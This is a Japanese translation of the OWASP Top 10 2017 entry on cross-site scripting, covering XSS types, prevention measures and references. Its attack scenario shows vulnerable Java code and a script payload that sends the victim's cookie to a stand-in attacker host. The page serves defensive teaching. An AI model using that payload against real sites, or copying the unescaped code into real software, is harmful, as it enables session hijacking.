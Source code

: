 # A7:2017-クロスサイトスクリプティング (XSS)

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点           | 影響               |
| -- | -- | -- |
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リクレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |

## 脆弱性有無の確認

XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます。

* **リフレクトXSS**: アプリケーションまたはAPIが、ユーザ入力データを適切に検証およびエスケープせずに、HTML出力の一部としてインクルードしている場合に脆弱になります。攻撃が成功すると、攻撃者は被害者のブラウザで任意のHTMLやJavaScriptを実行できるようになります。一般的には、水飲み場サイトや広告ページなど、攻撃者の制御下にあるページに辿り着くための何らかの悪質なリンクに対して、ユーザが操作を行う必要があります。
* **ストアドXSS**: ユーザ入力データが後に別のユーザまたは管理者によって閲覧される場合において、アプリケーションまたはAPIがそのデータを無害化せずに格納していると脆弱になります。ストアドXSSは、大抵の場合、高または重大リスクと見做されています。
* **DOMベースXSS**: 攻撃者が制御可能なデータをページに動的にインクルードするJavaScriptフレームワーク、単一ページのアプリケーション、およびAPIは、DOMベースXSSに対して脆弱になります。アプリケーションは、安全でないJavaScript APIに対して、攻撃者が制御可能なデータを送信しないことが理想です。

典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。

## 防止方法

XSSを防止するには、信頼出来ないデータを動的なブラウザコンテンツから区別する必要があります。具体的には以下を実施します。

* 最新のRuby on RailsやReact JSなど、XSSに悪用されうるデータを自動的にエスケープするよう設計されたフレームワークを使用する。各フレームワークにおけるXSS対策の限界を確認し、対策の範囲外となるデータ使用については、適切な処理を行う。
* ボディ、属性、JavaScript、CSSやURLなどHTML出力のコンテキストに基づいて、信頼出来ないHTTPリクエストデータをエスケープすることで、リフレクトおよびストアドXSS脆弱性を解消できる。要求されるデータの詳細なエスケープ手法は [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) を参照のこと。
* クライアント側でのブラウザドキュメント改変時に、コンテキスト依存のエンコーディングを適用することで、DOMベースXSSへの対策となる。これが行えない場合には、OWASP Cheat Sheet 'DOM based XSS Prevention'で説明されている、同様のコンテキスト依存のエスケープ手法をブラウザAPIに適用することもできる。
* XSSに対する多層防御措置の一環として [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) を有効に設定する。これは、ローカルファイルインクルードを介して悪意のあるコードを設置可能にする他の脆弱性（例：パストラバーサルを悪用したファイルの上書き、許可されたコンテンツ配信ネットワークから提供された脆弱なライブラリ等）が存在しない場合に効果的である。

## 攻撃シナリオの例

**シナリオ #1**: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。

攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破れることに注意して下さい。

## 参考資料

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### その他

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
